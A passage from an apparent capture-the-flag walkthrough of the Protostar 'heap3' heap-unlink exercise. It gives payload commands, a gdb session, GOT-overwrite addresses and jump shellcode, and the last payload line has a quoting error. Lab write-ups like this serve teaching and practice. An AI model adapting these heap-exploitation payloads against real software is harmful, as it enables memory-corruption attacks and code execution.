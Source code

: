 argv[2]:
c_data
"CCCC"

Payload:

```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/heap3 `python -c 'print "A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "BBBB" + "\x1c\xb1\x04\x08" + "\x64\x88\x04\x08"'` CCCC
Segmentation fault
```

Damn it!! Lets have a look with gdb:

```lang-bash line-numbers 
user@protostar:~$ gdb -q /opt/protostar/bin/heap3
Reading symbols from /opt/protostar/bin/heap3...done.
(gdb) run `python -c 'print "A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "BBBB" + "\x1c\xb1\x04\x08" + "\x64\x88\x04\x08"'` CCCC
Starting program: /opt/protostar/bin/heap3 `python -c 'print "A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "BBBB" + "\x1c\xb1\x04\x08" + "\x64\x88\x04\x08"'` CCCC

Program received signal SIGSEGV, Segmentation fault.
0x08049906 in free (mem=0x804c030) at common/malloc.c:3638
3638	common/malloc.c: No such file or directory.
	in common/malloc.c
(gdb) x/x 0x0804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x08048864
(gdb) p winner
$1 = {void (void)} 0x8048864 <winner>
```

As you can see we have successfully overwritten the GOT entry for **puts()** with the winner address but we have a segmentation fault within malloc.c

Lets try an alternative approach. Instead of jumping straight to the winner address, we will prepare a shellcode that will get there for us and we will place this shellcode in the first chunk.

Shellcode:
jmp 12
nop sled
push &winner
ret

or in opcodes:
\xeb\x0c\x90..\x90\xeb\x0c\x68\x64\x88\x04\x08\xc3

We want to jump 12 bytes because unlink will overwrite part of our shellcode.

```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/heap3 `python -c 'print "\xeb\x0c" + \x90"*18 + "\x68\x64\x88\x04\x08\xc3" + "A"*6 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "BBBB"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'` CCCC
that wasn't too bad now, was it? @ 1387564812
```

Wow, it worked!
